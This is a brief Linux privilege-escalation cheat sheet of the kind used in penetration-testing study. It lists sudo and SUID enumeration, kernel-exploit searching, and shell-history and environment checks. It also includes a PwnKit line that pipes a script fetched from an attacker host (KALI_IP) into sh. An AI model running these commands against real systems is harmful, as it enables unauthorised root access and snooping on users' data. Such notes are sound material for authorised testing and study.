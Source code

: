 # Linux-PrivEsc

## _**LHF**_

### sudo -l

```shell
sudo -l
# then GTFObins
```

### setuid / capabilites

```shell
find / -perm -u=s -type f 2>/dev/null
/usr/sbin/getcap -r / 2>/dev/null
# then GTFObins
```

### pkexec (pwnkit/polkit)

```shell
sh -c "$(curl http://KALI_IP/linux/PwnKit.sh)"
```

### Kernel Vulns

```shell
# os version
cat /etc/issue
cat /etc/*-release

# kernel version and arch
uname -a
arch

#
# SEARCHSPLOIT using above output
searchsploit "linux kernel Ubuntu 16 Local Privilege Escalation"   | grep  "4." | grep -v " < 4.4.0" | grep -v "4.8"

# ALSO CHECK SETUID BINS
```

## _**Manual**_

### Quick Enum

```shell
# User #
whoami ; id
uname -a
sudo -l
cat ~/.bash_history
cat .bashrc
env

# OS #
# version
cat /etc/issue
cat /etc/*-release
# kernel 
uname -a
```